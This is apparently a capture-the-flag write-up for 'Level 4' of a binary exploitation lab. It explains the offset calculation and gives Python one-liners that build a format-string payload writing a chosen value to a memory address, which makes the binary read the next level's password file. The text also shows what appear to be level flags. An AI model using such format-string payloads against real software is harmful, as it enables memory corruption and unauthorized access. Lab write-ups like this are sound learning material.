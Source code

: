 # Level 4
```bash
su level4 #b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Steps

Disassembling the binary, we see that we need to write the correct value at `0x8049810` to trigger the call to `cat /home/user/level5/.pass`. This time it's more complicated because of the nested `p` function inside `n`. We have to take this into account for our offset.

The offset is: `0x18` (stack length of `p`) + `0x4` (EBP) + `0x4` (RET address) + `0x10` (position of buffer from `ESP = 0x218 - 0x208`).

*To verify our arguments are correct:*
```bash
python -c "print '\x08\x04\x98\x10'[::-1] + '%12\$p'"
```

*To write the value `0x1025544(16930116)` at address `*0x8049810`*
```bash
$ python -c "print '\x08\x04\x98\x10'[::-1] + '%16930112d%12\$n'" > /tmp/4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
